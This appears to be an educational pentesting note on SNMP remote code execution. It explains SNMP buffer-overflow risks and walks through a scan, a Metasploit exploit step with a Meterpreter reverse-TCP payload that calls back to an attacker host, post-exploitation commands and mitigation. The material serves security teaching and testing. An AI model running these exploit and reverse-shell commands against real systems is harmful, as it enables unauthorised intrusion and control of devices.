 # SNMP RCE pentesting


# 👉 Overview

---

### 👀 What ?

> Simple Network Management Protocol (SNMP) Remote Code Execution (RCE) pentesting is a technique that involves exploiting vulnerabilities in SNMP - a protocol used for managing devices in IP networks - to execute arbitrary code remotely.
> 

### 🧐 Why ?

> SNMP RCE pentesting is important because it helps identify vulnerabilities that could be exploited by attackers to gain unauthorized access to a system, disrupt network operations, or steal sensitive data. Understanding how to carry out SNMP RCE pentesting can be a valuable skill for cybersecurity professionals, as it can help in assessing the security of a network and developing strategies to strengthen it.
> 

### ⛏️ How ?

> To conduct SNMP RCE pentesting, you would typically start by scanning the network to identify devices that use SNMP. You can use tools like Nmap for this. Once you've identified potential targets, you can then use a tool like Metasploit to exploit known vulnerabilities and execute code remotely. However, it's crucial to only carry out such tests on networks that you have permission to do so to avoid legal consequences.
> 

### ⏳ When ?

> SNMP RCE pentesting became more prevalent as the use of SNMP in networking devices increased. This is because a successful SNMP RCE attack can give an attacker full control over a device, making it a high-risk vulnerability.
> 

# ⚙️ Technical Explanations

---

SNMP, or Simple Network Management Protocol, is a standard protocol used to communicate with devices on a network. It operates at the Application Layer of the Internet Protocol Suite, which allows it to interact with different network devices, regardless of their hardware type or the network architecture they're a part of.

SNMP is primarily used for managing and monitoring network devices. Network administrators use it to keep an eye on network performance, find and solve issues, and plan for network growth.

However, due to its widespread use and powerful functionality, SNMP can become a target for cyber attackers. Specifically, vulnerabilities can arise in how the SNMP service processes incoming requests. For instance, the service might have a buffer overflow vulnerability where it doesn't properly limit or check the size of the incoming data. This could allow an attacker to send a specially crafted request that overflows the buffer and injects malicious code into the system.

This is where SNMP Remote Code Execution (RCE) comes into play. An attacker who successfully exploits these vulnerabilities can execute arbitrary code on the targeted system. Typically, this code runs with the same privileges as the SNMP service itself. Depending on the permissions associated with the SNMP service, this could give the attacker significant control over the system.

Once an attacker has executed code on a system, they can perform a wide range of malicious activities. This includes stealing sensitive data, disrupting network operations, or distributing malware across the network. To mitigate these risks, it's vital to regularly test and patch SNMP services for any known vulnerabilities and to employ strong security measures, such as using secure versions of SNMP, enabling authentication, and restricting SNMP access to trusted hosts only.

Let's consider a real but hypothetical example for educational purposes. Suppose you are a network administrator responsible for an IP network consisting of various devices. You have been given the task to perform SNMP RCE pentesting to identify potential vulnerabilities. Here are the steps you might follow:

1. **Network Scanning**: First, you need to identify the devices in your network that use SNMP. You can use a tool like Nmap for this purpose. An example command might be `nmap -p 161 --script snmp-info 192.168.1.0/24`, where `p 161` specifies the SNMP port, `-script snmp-info` runs the SNMP info script, and `192.168.1.0/24` specifies the range of IP addresses to scan.
2. **Identifying Vulnerabilities**: After identifying the potential targets, you need to identify the vulnerabilities. For this, you can use a tool like Nessus or OpenVAS. These tools have databases of known vulnerabilities and can scan your devices to see if they are susceptible.
3. **Exploiting Vulnerabilities**: Once you've identified a system with a known vulnerability, you can attempt to exploit it using a tool like Metasploit. For example, consider that you found an SNMP service with a buffer overflow vulnerability. Metasploit might have an exploit available for this vulnerability. An example command could look like this: `msfconsole`, `use exploit/windows/snmp/snmpset`, `set RHOSTS 192.168.1.5`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST 192.168.1.10`, `run`. Each command is setting up the exploit, specifying the target, specifying the payload (the code to be executed), specifying the local host (the system running Metasploit), and triggering the exploit.
4. **Post-Exploitation**: After successful exploitation, the attacker has control over the system. They can now execute arbitrary code. A command could be as simple as `getuid` to get the user ID of the account the code is running under, or `ipconfig` to get the network configuration of the system.
5. **Mitigation**: Once you've identified the vulnerabilities and understand how they can be exploited, you can work on patching these vulnerabilities and strengthening your network's security. This might involve updating to a more secure version of SNMP, enabling authentication, and restricting SNMP access to trusted hosts.

Remember, this example is for educational purposes only. Always ensure you have the necessary permissions before conducting any pentesting activities.
